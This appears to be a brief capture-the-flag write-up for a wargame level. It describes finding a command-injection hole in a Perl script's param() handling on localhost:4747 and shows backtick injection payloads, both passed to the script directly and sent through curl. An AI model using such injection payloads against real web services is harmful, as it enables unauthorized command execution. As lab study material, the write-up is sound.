 # cat level04.pl

it's a Perl script doing something on localhost:4747


# little bit of ressearch

found out the param() function can expose some vulnerabilities in Perl
analyzing the script we can deduce that we can inject some code in the param() function :
./level04.pl x='`getflag`'
this doesn't do much as we are executing the script as level04


# checking for open ports

netstat -tulpn tells us we are listening on port 4747 so maybe we can inject some code through here


# curl

curl localhost:4747?x=\`getflag\` 
